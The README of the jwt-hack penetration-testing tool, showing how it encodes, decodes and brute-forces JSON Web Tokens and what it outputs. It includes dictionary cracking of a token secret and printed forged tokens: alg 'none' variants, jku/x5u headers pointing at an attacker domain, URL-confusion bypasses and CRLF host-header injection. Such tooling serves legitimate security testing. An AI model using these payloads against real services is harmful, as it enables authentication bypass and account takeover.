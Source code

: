 <h1 align="center">
  <br>
  <a href=""><img src="https://user-images.githubusercontent.com/13212227/91675684-26561500-eb78-11ea-9f59-d904d743afae.png" alt="" width="260px;"></a>
  <br>
  Hack the JWT(JSON Web Token)
  <br>
  <img src="https://img.shields.io/github/v/release/hahwul/jwt-hack?style=flat">
  <img src="https://github.com/hahwul/jwt-hack/actions/workflows/go.yml/badge.svg">
  <img src="https://github.com/hahwul/jwt-hack/actions/workflows/codeql-analysis.yml/badge.svg">
  <a href="https://codecov.io/gh/hahwul/jwt-hack"><img src="https://codecov.io/gh/hahwul/jwt-hack/branch/main/graph/badge.svg"/></a>
  <img src="https://app.codacy.com/project/badge/Grade/77bdf42ef06a430a9bfb46f15eb86626">
  <a href="https://goreportcard.com/report/github.com/hahwul/jwt-hack"><img src="https://goreportcard.com/badge/github.com/hahwul/jwt-hack"></a>
  <a href="https://twitter.com/intent/follow?screen_name=hahwul"><img src="https://img.shields.io/twitter/follow/hahwul?style=flat&logo=twitter"></a>
</h1>

## Installation
### go-get(dev version)
```
▶ go get -u github.com/hahwul/jwt-hack
```

### homebrew
```
▶ brew tap hahwul/jwt-hack
▶ brew install jwt-hack
```

### snapcraft
```
▶ sudo snap install jwt-hack
```

## Usage
```
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
Hack the JWT(JSON Web Token) | by @hahwul | v1.0.0

Usage:
  jwt-hack [command]

Available Commands:
  crack       Cracking JWT Token
  decode      Decode JWT to JSON
  encode      Encode json to JWT
  help        Help about any command
  payload     Generate JWT Attack payloads
  version     Show version

Flags:
  -h, --help   help for jwt-hack
```

![1414](https://user-images.githubusercontent.com/13212227/97078000-8a023900-1623-11eb-844f-ee92399be392.png)

## Encode mode(JSON to JWT)
```
▶ jwt-hack encode '{"json":"format"}' --secret={YOUR_SECRET}
```

e.g
```
▶ jwt-hack encode '{"test":"1234"}' --secret=asdf
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Encoded result                                algorithm=HS256
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXN0IjoiMTIzNCJ9.JOL1SYkRZYUz9GVny-DgoDj60C0RLz929h1_fFcpqQA
```

## Decode mode(JWT to JSON)
```
▶ jwt-hack decode {JWT_CODE}
```

e.g
```
▶ jwt-hack decode eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Decoded data(claims)                          header="{\"alg\":\"HS256\",\"typ\":\"JWT\"}" method="&{HS256 5}"
{"iat":1516239022,"name":"John Doe","sub":"1234567890"}
```

## Crack mode(Dictionary attack / BruteForce)
```
▶ jwt-hack crack -w {WORDLIST} {JWT_CODE}
```

e.g
```
▶ jwt-hack crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA -w samples/wordlist.txt

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
[*] Start dict cracking mode
INFO[0000] Loaded words (remove duplicated)              size=16
INFO[0000] Invalid signature                             word=fas
INFO[0000] Invalid signature                             word=asd
INFO[0000] Invalid signature                             word=1234
INFO[0000] Invalid signature                             word=efq
INFO[0000] Invalid signature                             word=asdf
INFO[0000] Invalid signature                             word=2q
INFO[0000] Found! Token signature secret is test         Signature=Verified Word=test
INFO[0000] Invalid signature                             word=dfas
INFO[0000] Invalid signature                             word=ga
INFO[0000] Invalid signature                             word=f
INFO[0000] Invalid signature                             word=ds
INFO[0000] Invalid signature                             word=sad
INFO[0000] Invalid signature                             word=qsf
...
INFO[0000] Invalid signature                             word=password
INFO[0000] Invalid signature                             word=error
INFO[0000] Invalid signature                             word=calendar
[+] Found! JWT signature secret: test
[+] Finish crack mode
```

## Payload mode(Alg none attack, etc..)
```
▶ jwt-hack payload {JWT_CODE}
```

for jku and x5u (what is? [readme this slide](https://www.slideshare.net/snyff/jwt-jku-x5u))
* `--jwk-attack` : A attack payload domain for jku&x5u (e.g hahwul.com)
* `--jwk-trust` : jku&x5u protocol (http/https) (default "https")
* `--jwk-protocol` : A trusted domain for jku&x5u (e.g google.com)

e.g
```
▶ jwt-hack payload eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.5m9zFPGPU0LMdTTLCR7jXMP8357nNAa0z8ABJJE3r3c --jwk-attack attack.hahwul.com --jwk-protocol https --jwk-trust trust.hahwul.com

INFO[0000] Generate none payload                         header="{\"alg\":\"none\",\"typ\":\"JWT\"}" payload=none
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate NonE payload                         header="{\"alg\":\"NonE\",\"typ\":\"JWT\"}" payload=NonE
eyJhbGciOiJOb25FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate NONE payload                         header="{\"alg\":\"NONE\",\"typ\":\"JWT\"}" payload=NONE
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate jku + basic payload                  header="{\"alg\":\"hs256\",\"jku\":\"attack.hahwul.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6ImF0dGFjay5oYWh3dWwuY29tIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate jku host validation payload          header="{\"alg\":\"hs256\",\"jku\":\"https://trust.hahwul.comZattack.hahwul.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbVphdHRhY2suaGFod3VsLmNvbSIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate jku host validation payload          header="{\"alg\":\"hs256\",\"jku\":\"https://trust.hahwul.com@attack.hahwul.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbUBhdHRhY2suaGFod3VsLmNvbSIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate jku host header injection (w/CRLF) payload  header="{\"alg\":\"hs256\",\"jku\":\"https://trust.hahwul.com%0d0aHost: attack.hahwul.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbSUwZDBhSG9zdDogYXR0YWNrLmhhaHd1bC5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate x5u + basic payload                  header="{\"alg\":\"hs256\",\"x5u\":\"attack.hahwul.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6ImF0dGFjay5oYWh3dWwuY29tIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate x5u host validation payload          header="{\"alg\":\"hs256\",\"x5u\":\"https://trust.hahwul.comZattack.hahwul.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbVphdHRhY2suaGFod3VsLmNvbSIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate x5u host validation payload          header="{\"alg\":\"hs256\",\"x5u\":\"https://trust.hahwul.com@attack.hahwul.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbUBhdHRhY2suaGFod3VsLmNvbSIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

INFO[0000] Generate x5u host header injection (w/CRLF) payload  header="{\"alg\":\"hs256\",\"x5u\":\"https://trust.hahwul.com%0d0aHost: attack.hahwul.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vdHJ1c3QuaGFod3VsLmNvbSUwZDBhSG9zdDogYXR0YWNrLmhhaHd1bC5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.
```
